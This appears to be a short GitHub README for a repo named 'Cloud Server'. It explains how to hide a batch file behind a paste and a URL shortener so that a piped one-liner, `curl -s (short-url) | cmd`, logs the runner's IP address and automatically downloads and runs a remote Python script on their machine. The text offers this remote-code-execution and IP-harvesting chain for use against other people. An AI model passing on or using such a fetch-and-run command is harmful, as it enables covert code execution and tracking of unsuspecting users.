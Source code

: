 # Cloud Server

This is a Cloud Server in GitHub, this is not intended for public usage.
It's a complete garbage repo if you don't know what this is.

## Information

The "connect.bat" file will be execute the code in "server.py"; in order to do the same, you need to clone the repo; copy the Raw URL of "server.py".
After that, you'll need to replace the "https://raw.githubusercontent.com/snowyxxdev/cloud-server/refs/heads/main/server.py" in "connect.bat" with the copied Raw URL.

You can create a paste containing the "connect.bat" contents, and use a URL shortener. Now, if you run the following command:

`curl -s (short-url) | cmd`

The IP Address will be logged, and provided from the URL shortener service (depending on which service).
And, if they have Python installed; it'll automatically run the code in "server.py".


# ________________________________

## Made by @snowyxxdev
- Shortened URL: *t.ly/tl.y*
